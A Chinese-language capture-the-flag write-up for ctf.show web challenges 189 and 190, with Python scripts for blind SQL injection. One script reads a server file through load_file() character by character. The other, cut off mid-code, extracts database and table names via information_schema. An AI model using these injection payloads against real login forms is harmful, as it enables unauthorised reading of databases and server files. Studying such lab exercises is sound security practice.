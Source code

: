 ## web 189

读文件盲注

```python
import requests
import time

url = "http://9cb4c9e3-266b-448b-9b17-b1ad6e41239b.challenge.ctf.show/api/"
flagstr = "}{<>$=,;_ 'abcdefghijklmnopqr-stuvwxyz0123456789"

flag = ""
#这个位置，是群主耗费很长时间跑出来的位置~
for i in range(257,257+60):
    for x in flagstr:
        data={
        "username":"if(substr(load_file('/var/www/html/api/index.php'),{},1)=('{}'),1,0)".format(i,x),
        "password":"0"
        }
        print(data)
        response = requests.post(url,data=data)
        time.sleep(0.3)
        # 8d25是username=1时的页面返回内容包含的，具体可以看上面的截图~
        if response.text.find("8d25")>0:
            print("++++++++++++++++++ {} is right".format(x))
            flag+=x
            break
        else:
            continue
    print(flag)
```

## web 190

给username加上了单引号

```php
$sql = "select pass from ctfshow_user where username = '{$username}'";
```
**登录admin，返回密码错误，使用随意用户名返回用户不存在，说明查询成功时会返回密码错误**，利用这点进行盲注

```python
#author:yu22x
import requests
import string
url="http://46163ae9-ca15-415c-9a1f-d79ea27cf81e.challenge.ctf.show/api/index.php"
s=string.ascii_letters+string.digits
flag=''
for i in range(1,45):
    print(i)
    for j in range(32,128):
        #跑库名
        # data={
        #     'username':f"'||if(ascii(substr(database(),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑表名
        # data={
        #     'username':f"'||if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

```